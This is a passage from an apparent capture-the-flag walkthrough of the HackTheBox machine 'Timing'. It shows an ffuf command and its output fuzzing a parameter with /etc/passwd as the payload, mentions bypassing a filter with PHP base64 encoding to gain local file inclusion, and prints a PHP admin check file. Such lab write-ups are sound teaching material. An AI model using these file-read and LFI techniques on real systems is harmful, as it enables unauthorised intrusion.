 `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://timing.htb/image.php?FUZZ=/etc/passwd -fw 1`
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://timing.htb/image.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

img                     [Status: 200, Size: 25, Words: 3, Lines: 1, Duration: 75ms]
```

Using /etc/passwd as our test payload, we return img as a parameter.

![](https://i.imgur.com/NU9FLkX.png)

Looks like there is a firewall. We can bypass with php filter base64 encode.

![](https://i.imgur.com/V7J3f52.png)

And with that we have LFI. We can now look at the source code of many of the php files. Here's the interesting bits.

admin_auth_check.php
```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}

?>
```
